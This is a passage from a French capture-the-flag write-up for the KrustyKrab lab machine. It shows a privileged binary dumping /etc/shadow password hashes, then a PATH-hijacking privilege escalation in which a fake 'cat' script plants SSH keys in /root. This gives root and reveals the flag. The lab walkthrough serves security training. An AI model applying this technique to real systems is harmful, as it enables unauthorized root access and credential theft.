 Bingo :

```console
Squidward@KrustyKrab:~$ ./laststep 
root:$y$j9T$xm9zjJdLydmP9yMp9Nj3C0$RK1zpq.FysZjb30c5IUWzUi.BWYvIUsygxhgsyvyzO3:20174:0:99999:7:::
daemon:*:19549:0:99999:7:::
bin:*:19549:0:99999:7:::
sys:*:19549:0:99999:7:::
sync:*:19549:0:99999:7:::
games:*:19549:0:99999:7:::
man:*:19549:0:99999:7:::
lp:*:19549:0:99999:7:::
mail:*:19549:0:99999:7:::
news:*:19549:0:99999:7:::
uucp:*:19549:0:99999:7:::
proxy:*:19549:0:99999:7:::
www-data:*:19549:0:99999:7:::
backup:*:19549:0:99999:7:::
list:*:19549:0:99999:7:::
irc:*:19549:0:99999:7:::
_apt:*:19549:0:99999:7:::
nobody:*:19549:0:99999:7:::
systemd-network:!*:19549::::::
systemd-timesync:!*:19549::::::
messagebus:!:19549::::::
avahi-autoipd:!:19549::::::
sshd:!:19549::::::
mysql:!:20171::::::
KrustyKrab:$y$j9T$v3iavPLpYl5ezsR4pMSjc0$bPxk2s3wxGrhgv4PpFbYVP9sy4ERDnAzf14Ud.p1Iq4:20174:0:99999:7:::
spongebob:$y$j9T$QMeIdDraDWE0L5C65y6SN1$JqifleH2vWxsHdW.1eZHTLEhqluSDP7RKOPhKdpGip8:20174:0:99999:7:::
Squidward:$y$j9T$G4aYhd9T1rT4dzeu06RZZ1$mbjej1b0wgbrF.KlZrP6WafH5tI9ssL8ztqEDDC2tD7:20174:0:99999:7:::
Debian-exim:!:20174::::::
```

On est sur un cas d'école d'exploitation du PATH :

```console
Squidward@KrustyKrab:~$ echo -e '#!/usr/bin/bash\nmkdir -p /root/.ssh\ncp /tmp/authorized_keys /root/.ssh/' > cat
Squidward@KrustyKrab:~$ chmod 755 cat
Squidward@KrustyKrab:~$ PATH=.:$PATH ./laststep
```

Gigateuf !

```console
$ ssh -i key_no_pass root@192.168.242.129
root@KrustyKrab:~# id
uid=0(root) gid=0(root) groups=0(root)
root@KrustyKrab:~# ls
root.txt
root@KrustyKrab:~# cat root.txt 
efe397e3897f0c19ef0150c2b69046a3
```
